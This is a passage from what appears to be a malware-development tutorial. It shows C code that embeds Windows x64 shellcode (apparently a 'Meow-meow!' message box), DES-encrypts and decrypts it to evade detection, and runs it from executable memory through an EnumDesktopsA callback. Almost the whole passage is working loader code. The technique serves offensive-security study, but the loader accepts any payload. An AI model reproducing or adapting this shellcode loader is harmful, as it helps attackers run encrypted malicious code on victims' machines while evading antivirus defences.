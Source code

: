 ```cpp
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
  int my_payload_len = sizeof(my_payload) - 1;

  uint64_t key = 0x0123456789ABCDEF;

  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);


  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  des_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
   for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  des_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");
  
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  return 0;
}
```

So, full source code is looks like this (`hack.c`):    
